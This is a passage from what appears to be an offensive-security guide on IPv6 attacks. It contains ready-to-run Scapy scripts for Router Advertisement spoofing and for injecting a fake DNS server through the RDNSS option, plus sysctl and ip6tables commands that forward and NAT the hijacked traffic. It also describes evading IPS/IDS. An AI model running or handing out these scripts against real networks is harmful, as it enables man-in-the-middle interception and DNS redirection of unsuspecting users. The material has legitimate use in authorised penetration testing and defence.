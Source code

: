 Result: a full **link-local topology** (MAC ⇄ IPv6) in a matter of seconds, without triggering IPS/IDS systems that rely on active scans.

### Router Advertisement (RA) Spoofing

IPv6 hosts rely on **ICMPv6 Router Advertisements** for default-gateway discovery.  If you inject forged RAs **more frequently** than the legitimate router, devices will silently switch to you as the gateway.

```python
#!/usr/bin/env python3
from scapy.all import *
import argparse

p = argparse.ArgumentParser()
p.add_argument('-i','--interface',required=True)
p.add_argument('-m','--mac',required=True,help='Source MAC (will be put in SrcLL option)')
p.add_argument('--llip',required=True,help='Link-local source IP, e.g. fe80::dead:beef')
p.add_argument('-l','--lifetime',type=int,default=1800,help='Router lifetime')
p.add_argument('--interval',type=int,default=5,help='Seconds between RAs')
p.add_argument('--revert',action='store_true',help='Send lifetime=0 to undo attack')
args = p.parse_args()

lifetime = 0 if args.revert else args.lifetime
ra = (IPv6(src=args.llip,dst='ff02::1',hlim=255)/
      ICMPv6ND_RA(routerlifetime=lifetime, prf=0x1)/  # High preference
      ICMPv6NDOptSrcLLAddr(lladdr=args.mac))

send(ra,iface=args.interface,loop=1,inter=args.interval)
```

To actually **forward traffic** after winning the race:

```bash
sudo sysctl -w net.ipv6.conf.all.forwarding=1
sudo ip6tables -A FORWARD -i eth0 -j ACCEPT
sudo ip6tables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

### RDNSS (DNS) Spoofing via RA

[RFC 8106](https://datatracker.ietf.org/doc/html/rfc8106) allows adding a **Recursive DNS Server (RDNSS)** option inside a RA.  Modern OSes (Win 10 ≥1709, Win 11, macOS Big Sur, Linux systemd-resolved, …) automatically trust it:

```python
#!/usr/bin/env python3
from scapy.all import *
import argparse

p = argparse.ArgumentParser()
p.add_argument('-i','--interface',required=True)
p.add_argument('--llip',required=True)
p.add_argument('--dns',required=True,help='Fake DNS IPv6')
p.add_argument('--lifetime',type=int,default=600)
p.add_argument('--interval',type=int,default=5)
args = p.parse_args()

ra = (IPv6(src=args.llip,dst='ff02::1',hlim=255)/
      ICMPv6ND_RA(routerlifetime=0)/
      ICMPv6NDOptRDNSS(dns=[args.dns],lifetime=args.lifetime))

send(ra,iface=args.interface,loop=1,inter=args.interval)
```
